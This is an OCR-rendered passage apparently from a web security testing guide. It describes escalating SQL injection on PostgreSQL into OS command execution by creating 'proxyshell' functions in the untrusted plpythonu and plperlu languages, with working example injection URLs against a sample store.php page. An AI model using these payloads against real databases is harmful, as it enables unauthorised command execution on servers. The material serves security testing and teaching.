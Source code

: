   - Check if PL/Python has been enabled on a database:
      -
        ''SELECT count(\*) FROM pg_language WHERE lanname='plpythonu'
  - If not, try to enable:
      -
        *CREATE LANGUAGE plpythonu*
  - If either of the above succeeded, create a proxy shell function:
      -
        *CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os;
        return os.popen(args\[0\]).read() 'LANGUAGE plpythonu*
  - Have fun with:
      -
        SELECT proxyshell(*os command*);

**Example:**

  - Create a proxy shell function:
      -
        ''<nowiki>/store.php?id=1; CREATE FUNCTION proxyshell(text)
        RETURNS text AS ‘import os;

return os.popen(args\[0\]).read()’ LANGUAGE plpythonu;-- </nowiki>''

  - Run an OS Command:
      -
        */store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'),
        NULL OFFSET 1;--*

##### plperl

Plperl allows us to code PostgreSQL functions in perl. Normally, it is
installed as a trusted language in order to disable runtime execution of
operations that interact with the underlying operating system, such as
*open*. By doing so, it's impossible to gain OS-level access. To
successfully inject a proxyshell like function, we need to install the
untrusted version from the *postgres* user, to avoid the so-called
application mask filtering of trusted/untrusted operations.

  - Check if PL/perl-untrusted has been enabled:
      -
        ''SELECT count(\*) FROM pg_language WHERE lanname='plperlu'
  - If not, assuming that sysadm has already installed the plperl
    package, try :
      -
        *CREATE LANGUAGE plperlu*
  - If either of the above succeeded, create a proxy shell function:
      -
        ''CREATE FUNCTION proxyshell(text) RETURNS text AS
        'open(FD,"$_\[0\]

|");return join("",<FD>);' LANGUAGE plperlu''

  - Have fun with:
      -
        SELECT proxyshell(*os command*);
